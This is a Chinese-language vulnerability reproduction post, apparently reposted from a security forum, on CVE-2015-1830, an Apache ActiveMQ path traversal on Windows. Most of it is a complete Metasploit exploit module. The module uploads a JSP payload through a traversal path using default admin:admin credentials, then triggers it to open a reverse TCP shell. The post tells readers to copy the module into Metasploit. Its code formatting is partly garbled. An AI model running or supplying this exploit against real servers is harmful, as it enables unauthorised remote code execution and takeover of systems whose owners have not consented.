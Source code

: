 # （CVE-2015-1830）ActiveMQ 路径遍历导致未经身份验证的rce

> 原文：[https://www.zhihuifly.com/t/topic/2799](https://www.zhihuifly.com/t/topic/2799)

# （CVE-2015-1830）ActiveMQ 路径遍历导致未经身份验证的rce

## 一、漏洞简介

Windows 5.11.2之前的Apache ActiveMQ 5.x中blob消息的文件服务器上载/下载功能中的目录遍历漏洞允许远程攻击者通过未指定的向量在任意目录中创建JSP文件。

## 二、漏洞影响

ActiveMQ 5.11.1

## 三、复现过程

### msf poc

> 直接在msf里面搜索就行了，如果没有请更新msf版本，或者手动复制下面的脚本到msf目录下。

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote

Rank = ExcellentRanking

include Msf::Exploit::Remote::HttpClient

def initialize(info = {})

super(update_info(info,

‘Name’           => ‘Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload’,

‘Description’    => %q{

This module exploits a directory traversal vulnerability (CVE-2015-1830) in Apache

ActiveMQ 5.x before 5.11.2 for Windows.

```
 The module tries to upload a JSP payload to the /admin directory via the traversal
    path /fileserver/..\\admin\\ using an HTTP PUT request with the default ActiveMQ
    credentials admin:admin (or other credentials provided by the user). It then issues
    an HTTP GET request to /admin/&lt;payload&gt;.jsp on the target in order to trigger the
    payload and obtain a shell.
  },
  'Author'          =&gt;
    [
      'David Jorm',     # Discovery and exploit
      'Erik Wynter'     # @wyntererik - Metasploit
    ],
  'References'     =&gt;
    [
      [ 'CVE', '2015-1830' ],
      [ 'EDB', '40857'],
      [ 'URL', 'https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt' ]
    ],
  'Privileged'     =&gt; false,
  'Platform'    =&gt; %w{ win },
  'Targets'     =&gt;
    [
      [ 'Windows Java',
        {
          'Arch' =&gt; ARCH_JAVA,
          'Platform' =&gt; 'win'
        }
      ],
    ],
  'DisclosureDate' =&gt; '2015-08-19',
  'License'        =&gt; MSF_LICENSE,
  'DefaultOptions'  =&gt; {
    'RPORT' =&gt; 8161,
    'PAYLOAD' =&gt; 'java/jsp_shell_reverse_tcp'
    },
  'DefaultTarget'  =&gt; 0))

register_options([
  OptString.new('TARGETURI', [true, 'The base path to the web application', '/']),
  OptString.new('PATH',      [true, 'Traversal path', '/fileserver/..\\admin\\']),
  OptString.new('USERNAME', [true, 'Username to authenticate with', 'admin']),
  OptString.new('PASSWORD', [true, 'Password to authenticate with', 'admin'])
]) 
```

end

def check

print_status(“Running check…”)

testfile = Rex::Text::rand_text_alpha(10)

testcontent = Rex::Text::rand_text_alpha(10)

```
send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
    },
  'method'    =&gt; 'PUT',
  'data'      =&gt; "&lt;% out.println(\"#{testcontent}\");%&gt;"
})

res1 = send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
    },
  'method'    =&gt; 'GET'
})

if res1 &amp;&amp; res1.body.include?(testcontent)
  send_request_cgi(
    opts = {
      'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'DELETE'
    },
    timeout = 1
  )
  return Exploit::CheckCode::Vulnerable
end

Exploit::CheckCode::Safe 
```

end

def exploit

print_status(“Uploading payload…”)

testfile = Rex::Text::rand_text_alpha(10)

vprint_status(“If upload succeeds, payload will be available at #{target_uri.path}admin/#{testfile}.jsp”) #This information is provided to allow for manual execution of the payload in case the upload is successful but the GET request issued by the module fails.

```
send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
    },
  'method'    =&gt; 'PUT',
  'data'      =&gt; payload.encoded
})

print_status("Payload sent. Attempting to execute the payload.")
res = send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
  },
  'method'    =&gt; 'GET'
})
if res &amp;&amp; res.code == 200
  print_good("Payload executed!")
else
  fail_with(Failure::PayloadFailed, "Failed to execute the payload")
end 
``` `end

end` 
```